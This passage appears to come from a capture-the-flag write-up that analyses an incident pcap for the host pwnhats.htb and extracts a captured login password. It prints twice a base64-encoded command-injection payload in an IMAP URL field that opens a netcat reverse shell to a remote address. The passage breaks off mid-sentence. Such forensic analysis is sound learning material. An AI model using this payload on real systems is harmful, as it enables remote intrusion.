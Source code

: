 There’s nothing in `ib01c03`, presumably because they haven’t started investigating the hacking into the Mantis Bug Track site hosted there. Inside `ib01c01`, there’s three files:

```

ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--rw-r--    1 1005     1000        10427 Dec 10  2018 ib01c01.access.log
-rw-r--r--    1 1000     1000       835084 Dec 10  2018 ib01c01_incident.pcap
-r--rw-r--    1 1005     1000          173 Dec 11  2018 notes.txt
226 Directory send OK.

```

I’ll download the files and take a look. `notes.txt`:

```

root@kali# cat notes.txt 
After checking the logs and the network capture, all points to that the attacker knows valid credentials and abused a recently discovered vuln to gain access to the server!

```

Looking through the `pcap` in `wireshark`, I’ll find a few interesting tcp streams. The most important is 20, where the attacker is visiting `www.pwnhats.htb` and sends a post to login with the password “GetYouAH4t!”. I’ll add that to my password list.

Stream 25 is also interesting. It’s another POST request. One of the items in the POST is this:

```

Content-Disposition: form-data; name="PS_SAV_IMAP_URL"

x -oProxyCommand=`echo$IFS$()bWtmaWZvIC90bXAvb3NmaWZ0bTsgbmMgMTAuMC4yLjE5IDQ0NDQgMDwvdG1wL29zZmlmdG0gfCAvYmluL3NoID4vdG1wL29zZmlmdG0gMj4mMTsgcm0gL3RtcC9vc2ZpZnRt|base64$IFS$()-d|bash`}
--_Part_913_1903200859_125024680
Content-Disposition: form-data; name="PS_SAV_IMAP_PORT"

143

```

It’s hard to know for sure what exploit this is targeting, but the `oProxyCommand` contains a string that looks obviously malicious:

```

`echo$IFS$()bWtmaWZvIC90bXAvb3NmaWZ0bTsgbmMgMTAuMC4yLjE5IDQ0NDQgMDwvdG1wL29zZmlmdG0gfCAvYmluL3NoID4vdG1wL29zZmlmdG0gMj4mMTsgcm0gL3RtcC9vc2ZpZnRt|base64$IFS$()-d|bash`

```

It’s in backticks, which means the shell will execute this, and it `echo` a base64 string into `base64 -d` and then into `bash`. That string decodes to a standard reverse shell:
